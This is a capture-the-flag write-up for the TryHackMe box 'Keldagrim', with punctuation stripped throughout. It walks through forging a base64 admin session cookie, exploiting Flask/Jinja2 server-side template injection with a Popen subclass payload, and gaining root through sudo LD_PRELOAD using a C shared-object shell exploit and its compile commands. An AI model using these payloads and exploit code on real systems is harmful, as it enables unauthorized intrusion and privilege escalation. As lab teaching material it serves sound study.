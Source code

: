    
layout  post
title   Keldagrim Writeup
description  A realistic box  Many things were learned during this challenge  and I highly recommend reading this writeup 
date    2021 02 05 
image     images 0xd4y logo gray png 
tags     Python  SSTI 
   

  This report can be read both on this site  and as its  a href    https   0xd4y github io reports Keldagrim 20Writeup pdf  original report form  a   It is highly recommended that you read the original report form instead because it is better formatted   

This box was rated as a medium difficulty by TryHackMe  This was a great box in the sense that the attacker did not have to get lucky by brute forcing a directory or password  Instead  the vulnerability came from connecting dots and researching  That being said  let s get right into the box 

Enumerating the ports  we find that only ports 22 and 80 are open 

     reports Keldagrim image2 png 

Looking at the results we don t find anything out of the ordinary  except for the httponly flag not being set  Let s just check out the website and see what we find 

     reports Keldagrim image12 png 

xt file  We are met with a very simple page with a couple of directories  On the  Our Team  tab we find two possible users  Jed and Jad  This may or may not be useful later on  so I made sure to add this to my notes txt file  Looking around we click on the  Buy Gold  tab and we see an interesting Admin option 

     reports Keldagrim image1 png 

Unfortunately the admin option is grayed out  I couldn t find anything more useful in this so let s use our trusty tool  Burpsuite  I captured a request to the  team directory and saw a couple of very strange things 

     reports Keldagrim image10 png 

First of all  there is a session cookie which is encoded in base64  Decoding this  we see that Z3Vlc3Q  is the base64 encode of guest  When base64 encoding the string  admin   YWRtaW4   and pasting that into the session cookie  we see that the content length changes  Let s use the developer tools  paste this base64 string in the session value  and reload the page 

     reports Keldagrim image5 png 

And we are now the admin  Unfortunately  there is not much that has changed except for the strange  sales  cookie which is also base64 encoded  Decoding this  we see that it corresponds to the  2 165 we see on the screen  At this point  I was stuck for a long time  but at the back of my mind was this strange server in one of my requests to the page with all the packages to be bought 

     reports Keldagrim image13 png 

Server  Werkzeug 1 0 1 Python 3 6 9

This is what comes to mind  Seeing Werkzeug and python brings to mind that maybe Flask has something to do with this  After a lot of research  it seemed that this box might be vulnerable to SSTI  Server Side Template Injection   I came across a great article on this topic  which explained very well on how this vulnerability is exploited   https   medium com  nyomanpradipta120 ssti in flask jinja2 20b068fdaeee  https   www google com url q https   medium com  nyomanpradipta120 ssti in flask jinja2 20b068fdaeee sa D source editors ust 1653954534767158 usg AOvVaw3cO1ZM3W9Fe ZTh2QettjH 

TL DR you can get code execution through abusing flask  Proof of concept 

     reports Keldagrim image9 png 

     reports Keldagrim image4 png 

As we can see  the server evaluated 7  7 which is 49  You must find the subprocess Popen under the  object  class with which you will get code execution  After viewing all the sub processes within the object class  I grepped the Popen subprocess to find at which index it is located  After discovering that it was at the 402nd location  the final payload looks like the following 

         class         mro      1       subclasses        401    ls  shell True stdout  1  communicate    

Now that we have code execution  let s get a reverse shell  

     reports Keldagrim image3 png 

There is user txt  One of the first things I run when getting a reverse shell is sudo  l 

     reports Keldagrim image8 png 

Unfortunately  getting root won t be as easy as just looking up  bin ps on gtfobins  Fortunately  however getting root is easy nonetheless  The env  keep  LD  PRELOAD is particularly strange  Looking this up  I came across an article that explained how to exploit this   https   www hackingarticles in linux privilege escalation using ld  preload   https   www google com url q https   www hackingarticles in linux privilege escalation using ld preload  sa D source editors ust 1653954534768244 usg AOvVaw0snkjC96zCdV2nbDP5tsbG  

Essentially  we want to create a shared object that will be run as root as part of the LD  PRELOAD environment  As a result  the actual function for  bin ps will be overridden by our own binary  Using this fact  we can create a shell as root  We must compile the code below as a shared object and add it to the LD  PRELOAD environment 

1

2

3

4

5

6

7

8

9

 include  stdio h 

 include  sys types h 

 include  stdlib h 

void   init    

unsetenv  LD  PRELOAD   

setgid 0  

setuid 0  

system   bin sh   

 

I saved the code below as exploit c and compiled it with the following commands 

cd  tmp

gcc  fPIC  shared  o shell so exploit c  nostartfiles

sudo LD  PRELOAD  tmp shell so ps

     reports Keldagrim image6 png 

BONUS 

I ran nikto on this website  and it found an interesting vulnerability 

     reports Keldagrim image7 png 

According to nikto  the site is vulnerability to HTML injection so let s try it out using the payload they suggest 

 ts2s1NMDd1VJtKSBRcn82Yzs6CMY1u42RDsdfO6lT8XQ4d2wnexQKAEmtizMPNHTnyEq2tGZFhuZFztIsW0KFFesXGzcEkCmWUYaq4CFDSQLzsu2gpT6eeKTFGHIDulc5a6layCW57JZyywP1ULTbIaz1LScDK6V74lsCTy8jH6z49h4spfFApiSynzRB18unriHDFcu1O9DivFGpMyUrxCsBPOLZQ0 font 20size 50 

     reports Keldagrim image11 png 

As can be seen  the font size has increased to a ridiculous size  This confirms the HTMLvulnerability  This vulnerability is not critical in the context of this box  as no other users will be using the exact same instance  However  in the case that this website were to be visited by many other users  the attacker can possibly steal their credentials by using a phishing attack  They can create a page for the victim to enter their username and password  and this information will be sent back to the attacker   

This was a great box  and I thank the creator  optional for creating such a fun challenge  Thanks for reading this writeup  I hope you learned as much from this box as I did  I wish you a wonderful day  or night  
